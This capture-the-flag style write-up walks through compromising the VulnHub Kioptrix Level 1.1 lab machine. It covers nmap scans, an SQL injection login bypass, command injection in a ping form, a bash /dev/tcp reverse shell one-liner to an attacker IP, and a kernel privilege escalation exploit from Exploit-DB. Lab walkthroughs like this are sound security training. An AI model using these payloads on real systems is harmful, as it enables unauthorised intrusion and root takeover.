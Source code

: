 <h1>KIOPTRIX: LEVEL 1.1</h1>

Today, we'll be looking at the Kioptrix level 2 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap 192.168.1.111   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 10:36 EET
Nmap scan report for 192.168.1.111
Host is up (0.040s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: B0:A4:60:CC:CC:61 (Intel Corporate)

Nmap done: 1 IP address (1 host up) scanned in 6.40 seconds
```
Browsing the machine on port 80, we have a login page.

Let's try to bypass that with sql injection.

We'll use this as the username: ```admin 'OR 1=1-- -```

And use any password you want.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix2/pics/pic1.png)

We got in!

Now, we got into this page that uses the ping command and looks like it might be 
vulnerable to command injection.

Let's try that to run the command ```id```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix2/pics/pic3.png)

It worked!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix2/pics/pic4.png)

Now, let's use that to open a reverse shell.

First let's set up a netcat listner.

Then, we can use this command to open a reverse shell

Here's a cheat sheet with multiple reverse shells: <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>

```192.168.1.111; bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1```

We got a shell!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix2/pics/pic5.png)

I ran a os detection scan with nmap to determine the version of linux running on the machine.

```
┌──(root㉿kali)-[~]
└─# nmap -O 192.168.1.111
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 14:08 EET
Nmap scan report for 192.168.1.111
Host is up (0.00025s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: B0:A4:60:CC:CC:61 (Intel Corporate)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```
We can see that it's running **Linux 2.6.9**.

We can use this exploit form exploitdb: <https://www.exploit-db.com/exploits/9542>

I downloaded the exploit and copied it to the target machine using python http server.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix2/pics/pic6.png)

Now, let's compile the c file and run it.

```gcc 9542.c -o shell```

Now, let's run it.

We became root!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix2/pics/pic7.png)